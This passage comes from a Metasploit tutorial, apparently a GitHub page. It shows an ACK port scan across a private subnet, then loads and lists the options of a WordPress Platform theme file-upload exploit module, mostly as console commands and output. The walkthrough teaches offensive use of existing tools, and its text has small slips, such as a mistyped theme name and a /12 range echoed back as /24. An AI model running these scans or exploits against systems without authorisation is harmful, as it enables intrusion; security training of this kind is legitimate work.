 **Now we have to set required things to scan our target**

```

msf5 auxiliary(scanner/portscan/ack) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(scanner/portscan/ack) > set PORTS 80
PORTS => 80
msf5 auxiliary(scanner/portscan/ack) > set RHOSTS 192.168.1.0/12
RHOSTS => 192.168.1.0/24
msf5 auxiliary(scanner/portscan/ack) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/portscan/ack) > run

```

Now this will give you scan result


**Target exploitation with metasploit**


Run 'msfconsole'

```
# msfconsole

msf5 > show exploits
```

**This will list all the exploits in database, choose any to see the usage.**

For example, i found a wordpress vulnerabilty in a unix server, called latform Theme File Upload Vulnerability.

```
msf5 > use exploit/unix/webapp/wp_platform_exec
msf5 exploit(unix/webapp/wp_platform_exec) > show options

```
```
msf5 exploit(unix/webapp/wp_platform_exec) > show options

Module options (exploit/unix/webapp/wp_platform_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.35      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   platform < 1.4.4, platform pro < 1.6.2

```
